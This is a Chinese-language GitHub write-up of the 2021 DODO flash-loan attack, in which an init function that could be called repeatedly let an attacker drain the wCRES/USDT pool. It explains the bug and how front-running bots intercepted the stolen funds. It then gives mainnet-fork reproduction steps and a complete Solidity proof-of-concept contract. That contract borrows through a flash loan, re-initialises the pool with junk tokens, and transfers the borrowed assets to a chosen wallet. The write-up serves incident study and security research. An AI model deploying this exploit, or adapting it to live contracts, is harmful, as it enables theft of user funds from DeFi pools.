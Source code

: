 # 0x00 概述

2021年3月,去中心化交易平台 DODO被黑客攻击的，仅仅 wCRES/USDT V2 一个交易对就被转走价值近 98 万美元的 wCRES 和近 114 万美元的 USDT.

漏洞原理其实比较简单，一句话描述就是`Init函数为Public且可被多次调用`.

但精彩的地方在于,攻击者并没有成功拿到超200万美金的赃款,而被Front Running Bot截了胡.

# 0x01 事件分析

* 攻击合约
```
0x910FD17B9Bfc42A6eEA822912f036EF5a080Be8A
```

* 攻击交易
```
0x395675b56370a9f5fe8b32badfa80043f5291443bd6c8273900476880fb5221e
```
![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/attack_tx.png)

* 问题代码如下

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/vul_code.png)

> 攻击者首先生成两种垃圾Token
> 调用 `wCRES/USDT` 交易对合约的flashLoan函数 借出上百万美金的wCRES 和USDT
> 通过init 函数把两个Token 地址改为自己刚刚生成的两个垃圾Token
> 并把垃圾Token 还给交易对合约, 躲过require的检查

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/require.png)

> 讽刺的是该合约声明了`notInitialized`的modifier,但是确并没有使用...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/modifier.png)

> 好玩的地方来了, 也许是攻击合约中的`Transfer Back`函数命名过于普通?并且同样为`Public`权限, 攻击者两次想把赃款从合约中提取出来的行为都被Bot监控到并且抢先提款,攻击者提了个寂寞...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Front%20Running.png)


> 只能说Dark Forest名不虚传.

# 0x02 复现方法

* 攻击事件发生在高度为`12000165`的块上, 所以我们可以选稍早的块去Fork以太坊的主网

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/your_api_key@12000000
```

* 通过ERC20Factory 生成两个垃圾Token 

> 由于ganache拿不到正确的返回值，也查不到Event 
> 所以需要修改一下ERC20Factory合约
> 这样才能查到新生成的Token地址是什么...

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/erc20_newToken.png)

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/ERC20_factory.png)

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Add_Token_On_Metamask.png)

* 为了方便我已经手动把两个垃圾Token 打给了`wCRES/USDT` 交易对合约地址

* 攻击合约如下

```js
/**
 *Submitted for verification at Etherscan.io on 2021-01-22
*/

/*

    Copyright 2020 DODO ZOO.
    SPDX-License-Identifier: Apache-2.0

*/

pragma solidity 0.6.9;
pragma experimental ABIEncoderV2;

interface DVM{
    
    function flashLoan(
        uint256 baseAmount,
        uint256 quoteAmount,
        address assetTo,
        bytes calldata data
    ) external;
    
    function init(
        address maintainer,
        address baseTokenAddress,
        address quoteTokenAddress,
        uint256 lpFeeRate,
        address mtFeeRateModel,
        uint256 i,
        uint256 k,
        bool isOpenTWAP
    ) external;        
    
}


interface Token {
    function balanceOf(address account) external view returns (uint);
    function transfer(address recipient, uint amount) external returns (bool);
}


interface USDT{
    //USDT 并没有完全遵循 ERC20 标准 所以其接口需单独定义
    function transfer(address to, uint value) external;
    function balanceOf(address account) external view returns (uint);
}


contract poc{
    
    
    uint256 wCRES_amount =  130000000000000000000000;
    
    uint256 usdt_amount =  1100000000000;
    
    address wCRES_token = 0xa0afAA285Ce85974c3C881256cB7F225e3A1178a;
    
    address usdt_token = 0xdAC17F958D2ee523a2206206994597C13D831ec7;
    
    address maintainer = 0x95C4F5b83aA70810D4f142d58e5F7242Bd891CB0;
    

    // 这里是刚生产的Token1地址
    address token1 = 0xAB48b42e6a98e671ff58338D5dD2fE44409b82D6;
    // 这里是刚生产的Token2地址
    address token2 = 0x1469A47A1700Cdf4cF030c0Fc7F2f45F24008228;
    
    uint256 lpFeeRate = 3000000000000000;
    
    address mtFeeRateModel = 0x5e84190a270333aCe5B9202a3F4ceBf11b81bB01;
    
    uint256 i = 1;
    
    uint256 k = 1000000000000000000;
    
    bool isOpenTWAP = false;
    

    // 这里填你的测试地址
    address  wallet = 0x;
    
    address dvm_wCRES_USDT =  0x051EBD717311350f1684f89335bed4ABd083a2b6;
    
    function attack() public {
        
        address me = address(this);
        DVM DVM_wCRES_USDT = DVM(dvm_wCRES_USDT);
        DVM_wCRES_USDT.flashLoan(wCRES_amount,usdt_amount,me,"0x");
        
    }

    
    function DVMFlashLoanCall(address a, uint256 b, uint256 c, bytes memory d) public{
        
        DVM DVM_wCRES_USDT = DVM(dvm_wCRES_USDT);
        DVM_wCRES_USDT.init(maintainer,token1,token2,lpFeeRate,mtFeeRateModel,i,k,isOpenTWAP);
        
        Token(wCRES_token).transfer(wallet, Token(wCRES_token).balanceOf(address(this)));
        USDT(usdt_token).transfer(wallet, Token(usdt_token).balanceOf(address(this)));
        
    }

}
```

* 攻击

![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/attack.png)

* 成功


![image](https://github.com/W2Ning/DODO_FlashLoan_Vul/blob/main/Success.png)
